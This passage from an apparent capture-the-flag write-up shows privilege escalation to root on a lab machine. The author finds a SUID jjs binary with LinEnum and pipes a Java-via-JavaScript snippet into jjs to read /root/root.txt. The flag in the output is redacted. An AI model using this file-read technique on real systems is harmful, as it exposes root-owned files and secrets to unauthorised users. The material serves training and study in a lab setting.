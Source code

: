 I now have the user flag after escalating privileges from `mango` to `admin`. Now we need to get `root`. Let's throw up a server and move `LinEnum.sh` over to the target, make it executable and run it. The output is available in the `enumeration/LinEnum.output.txt` file.

These two lines in the `LinEnum.sh` output stick out to me. Now that we have `admin` privileges, we can run `jjs`.


```
[+] Possibly interesting SUID files:
-rwsr-sr-- 1 root admin 10352 Jul 18  2019 /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs

...

[+] Possibly interesting SGID files:
-rwsr-sr-- 1 root admin 10352 Jul 18  2019 /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
```

Let's check `GTFObins` to see if we can do anything cool with `jjs`. It seems like there is an [arbitrary file read](https://gtfobins.github.io/gtfobins/jjs/#file-read) vulnerability with `jjs`. Let's try modifying that code to grab the root flag.

```bash
$ echo 'var BufferedReader = Java.type("java.io.BufferedReader");
var FileReader = Java.type("java.io.FileReader");
var br = new BufferedReader(new FileReader("/root/root.txt"));
while ((line = br.readLine()) != null) { print(line); }' | jjs

jjs> var BufferedReader = Java.type("java.io.BufferedReader");
jjs> var FileReader = Java.type("java.io.FileReader");
jjs> var br = new BufferedReader(new FileReader("/root/root.txt"));
jjs> while ((line = br.readLine()) != null) { print(line); }
8a8ef***************************
```

And that's the box!
